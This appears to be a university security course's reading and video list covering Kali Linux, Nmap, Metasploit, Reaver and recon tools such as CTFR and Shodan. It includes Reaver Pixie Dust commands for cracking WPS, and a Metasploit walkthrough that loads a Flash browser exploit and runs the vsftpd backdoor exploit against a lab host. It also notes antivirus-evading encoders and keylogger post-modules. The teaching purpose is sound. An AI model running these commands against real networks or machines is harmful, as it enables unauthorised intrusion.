 # Readings and Videos<p>
 
## Kali introductory readings

[Kali Linux Official Documentation](https://docs.kali.org/)<br />

[Kali Linux Custom Images](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-hyperv-image-download/)<br />

[Kali Blog: Linux in the Windows App Store](https://www.kali.org/news/kali-linux-in-the-windows-app-store/)<br />

[Kali Blog: Kali Drones, Portable CTF Builds, Raspberry Pi Craziness and More!](https://www.kali.org/news/kali-drones-portable-ctf-builds-raspberry-pi-craziness-and-more/)<br />


[Configuring and Tuning OpenVAS in Kali Linux](https://www.kali.org/tutorials/configuring-and-tuning-openvas-in-kali-linux/)<br />

[Nmap scanner gets new scripts](https://www.infoworld.com/article/3152617/security/nmap-security-scanner-gets-new-scripts-performance-boosts.html)<br />

[Mastering the Nmap Scripting Engine (video from DefCon 18, 38mins, non-obligatory)](https://www.infoworld.com/article/3152617/security/nmap-security-scanner-gets-new-scripts-performance-boosts.html)<br />

<details> 
  <summary>Q1: What is the best Language in the World? </summary>
   A1: JavaScript 
</details>


  
## Metasploit<p>

##### n.b. any ebooks are cuny-wide resources but if you have issues with the proxy please search in the JJay OneSearch [here](https://onesearch.cuny.edu/primo-explore/search?vid=jj&mode=advanced&sortby=rank&lang=en_US).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />
**Suggested brief reading:** [Metasploit for Beginners](https://www.concise-courses.com/security/metasploit-for-beginners/).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />
[Hands on with Metasploit Express (ScienceDirect)](https://doi.org/10.1016/S1353-4858(10)70092-1).<br />
[Instant Metasploit Starter (ProQuest ebook)](https://onesearch.cuny.edu/primo-explore/fulldisplay?docid=TN_ingram_myilibrary9781299802681&context=PC&vid=jj&search_scope=cunywide&tab=cuny_tab&lang=en_US).<br />
[Mastering Metasploit (ProQuest ebook)](https://onesearch.cuny.edu/primo-explore/fulldisplay?docid=TN_ingram_myilibrary9781306823425&context=PC&vid=jj&search_scope=everything&tab=default_tab&lang=en_US).<br />
[SANS Metasploit Cheatsheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf).<br />
[Setting up a Metasploit postgresql database](https://www.offensive-security.com/metasploit-unleashed/using-databases/).<p>
<p>


<p>
Youtube: Metasploit for Beginners<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/cnkLv_RE3EI/0.jpg)](https://www.youtube.com/watch?v=cnkLv_RE3EI "MetaSploit tutorial for beginners")<p>
<p>
  

Hak5's Metasploit Minute series<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/NTdthBQYa1k/0.jpg)](https://www.youtube.com/watch?v=NTdthBQYa1k "5 Ways To Get Initial Access - Metasploit Minute")<p>

Hackersploit's Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/8lR27r8Y_ik/0.jpg)](https://www.youtube.com/watch?v=8lR27r8Y_ik "Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads")<p>
<p>
 
## Reaver<p>
**Suggested brief reading:** [Offline Bruteforce Attack on Wifi Protected Setup](http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)<br />
 
 ##### Pixie Dust attack
 
 ![Options](https://comfy.moe/xeuglf.png)
  <p>

  
![The old way](https://www.hackingtutorials.org/wp-content/uploads/2015/06/Wordpress-screen-21-e1433583260536.jpg)
  <p>

`reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -K`    
![With the pixie dust option](https://comfy.moe/hhojvn.jpg)
  <p>
 
 `reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -p 39627124`
 ![With the pixie dust option - result](https://comfy.moe/tyhfos.jpg)
  
<p>
 
  ### Demonstration of using Metasploit<br />
  <br />
  start postgresql before msfconsole<br />
  searching: type and platform<br />
  <p>
  commands:<br />
  
  * search type:exploit platform:windows flash
  * help
  * use exploit/windows/browser/adobe_flash_avm2 (turns red if loaded)
  * show options (customize the attack) and set SRVPORT 80
  
  ANOTHER and BETTER EXAMPLE:
  * use ZenMap to see software running and note network topography
  * db_nmap_status, db_nmap -T4 -A -v metasploitableIP
  * show (gives lots of info)
  * show info (good place to start)
  * show payloads (shows all of the payloads available)
  * show targets
  * search vsftpd
  * use exploit/unix/ftp/vsftpd_234_backdoor
  * info
  * set RHOST 10.______
  * finish with 'check' and 'exploit'
  <p>
  Modules directory:  /usr/share/metasploit-framework<br />
  NOPS for buffer overflows<br />
  Encoding for sneaking through antivirus<br />
  post for further attacks are being pwned (keyloggers, VNC, etc.)<br />
  post/windows/gather <--btc-mining and other scripts<br />
  
  Armitage - GUI for MSF
  
  ezsploit automation
  
### Reconnaisance:<br />
[CTFR](https://github.com/UnaPibaGeek/ctfr)<p>
![CTFR](https://a.pomf.cat/qqtejp.png)
 <p>
 
### Shodan: FREE full membership with a .edu address: 
 ![Shodan](https://a.pomf.cat/tbucxr.png)
 
 Register here: https://account.shodan.io/register and email support@shodan.io from the .edu email.
  
